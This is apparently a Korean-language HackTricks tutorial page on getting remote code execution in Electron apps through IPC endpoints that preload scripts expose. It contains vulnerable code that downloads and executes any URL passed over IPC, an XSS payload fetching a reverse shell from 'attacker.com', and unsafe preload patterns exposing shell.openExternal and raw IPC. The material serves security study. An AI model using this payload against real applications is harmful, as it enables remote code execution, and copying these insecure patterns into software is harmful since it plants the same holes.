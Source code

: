 # Electron contextIsolation RCE via IPC

{{#include ../../../banners/hacktricks-training.md}}

preload 스크립트가 main.js 파일에서 IPC 엔드포인트를 노출하면, 렌더러 프로세스가 이를 접근할 수 있으며, 취약할 경우 RCE가 가능할 수 있습니다.

**이 예제들은 대부분 여기에서 가져왔습니다** [**https://www.youtube.com/watch?v=xILfQGkLXQo**](https://www.youtube.com/watch?v=xILfQGkLXQo). 추가 정보는 비디오를 확인하세요.

## Example 0

[https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21](https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21)에서 가져온 예제 (이 슬라이드에서 MS Teams가 XSS에서 RCE로 어떻게 악용되었는지에 대한 전체 예제를 볼 수 있으며, 이는 매우 기본적인 예제입니다):

<figure><img src="../../../images/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Example 1

`main.js`가 `getUpdate`를 수신 대기하고 **전달된 모든 URL을 다운로드하고 실행**하는 방법을 확인하세요.\
또한 `preload.js`가 **main에서 모든 IPC** 이벤트를 노출하는 방법도 확인하세요.
```javascript
// Part of code of main.js
ipcMain.on("getUpdate", (event, url) => {
console.log("getUpdate: " + url)
mainWindow.webContents.downloadURL(url)
mainWindow.download_url = url
})

mainWindow.webContents.session.on(
"will-download",
(event, item, webContents) => {
console.log("downloads path=" + app.getPath("downloads"))
console.log("mainWindow.download_url=" + mainWindow.download_url)
url_parts = mainWindow.download_url.split("/")
filename = url_parts[url_parts.length - 1]
mainWindow.downloadPath = app.getPath("downloads") + "/" + filename
console.log("downloadPath=" + mainWindow.downloadPath)
// Set the save path, making Electron not to prompt a save dialog.
item.setSavePath(mainWindow.downloadPath)

item.on("updated", (event, state) => {
if (state === "interrupted") {
console.log("Download is interrupted but can be resumed")
} else if (state === "progressing") {
if (item.isPaused()) console.log("Download is paused")
else console.log(`Received bytes: ${item.getReceivedBytes()}`)
}
})

item.once("done", (event, state) => {
if (state === "completed") {
console.log("Download successful, running update")
fs.chmodSync(mainWindow.downloadPath, 0755)
var child = require("child_process").execFile
child(mainWindow.downloadPath, function (err, data) {
if (err) {
console.error(err)
return
}
console.log(data.toString())
})
} else console.log(`Download failed: ${state}`)
})
}
)
```

```javascript
// Part of code of preload.js
window.electronSend = (event, data) => {
ipcRenderer.send(event, data)
}
```
악용:
```html
<script>
electronSend("getUpdate", "https://attacker.com/path/to/revshell.sh")
</script>
```
## 예제 2

프리로드 스크립트가 렌더러에 `shell.openExternal`을 호출할 수 있는 방법을 직접 노출하면 RCE를 얻을 수 있습니다.
```javascript
// Part of preload.js code
window.electronOpenInBrowser = (url) => {
shell.openExternal(url)
}
```
## 예제 3

프리로드 스크립트가 메인 프로세스와 완전히 통신할 수 있는 방법을 노출하면, XSS는 모든 이벤트를 보낼 수 있습니다. 이 영향은 메인 프로세스가 IPC 측면에서 무엇을 노출하는지에 따라 달라집니다.
```javascript
window.electronListen = (event, cb) => {
ipcRenderer.on(event, cb)
}

window.electronSend = (event, data) => {
ipcRenderer.send(event, data)
}
```
{{#include ../../../banners/hacktricks-training.md}}
